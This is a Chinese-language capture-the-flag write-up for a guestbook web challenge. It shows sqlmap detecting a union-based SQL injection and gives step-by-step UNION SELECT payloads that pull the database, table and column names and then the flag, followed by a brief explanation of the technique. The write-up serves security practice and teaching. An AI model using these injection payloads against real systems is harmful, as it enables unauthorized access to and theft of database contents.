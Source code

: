# inndy web guestbook
* [題目網址](https://hackme.inndy.tw/gb)
1. 用 sqlmap 掃每個網址，最後發現 sqlmap -u "https://hackme.inndy.tw/gb/?mod=read&id=10" 時出現有 UNION BASE SQL INJECTION，且欄位數目 4 個
2. 開始利用此漏洞得到 database name, table name, column name...
```
# 得到 database name 為 g8:
https://hackme.inndy.tw/gb/?mod=read&id=10 UNION SELECT 1, 2, 3, DATABASE()--

# 得到 table name 為 flag:
https://hackme.inndy.tw/gb/?mod=read&id=10 UNION SELECT 1, 2, 3, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='g8'--

# 得到 column name flag:
https://hackme.inndy.tw/gb/?mod=read&id=10 UNION SELECT 1, 2, 3, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='g8' AND TABLE_NAME='flag' AND COLUMN_NAME LIKE '%la%'--

# 得到 flag:
https://hackme.inndy.tw/gb/?mod=read&id=10 UNION SELECT 1, 2, 3, flag FROM flag WHERE flag LIKE '%FLAG%'--;
```

* UNION BASE SQL INJECTION 原理:
UNION 在 SQL 語法中是用來合併查詢用的，把 UNION 後面的查詢結果接在前面查詢結果的後面，所以 COLUMN 數量也必須一樣，超過會出錯。
* [sqlmap 教學](http://www.vuln.cn/1992)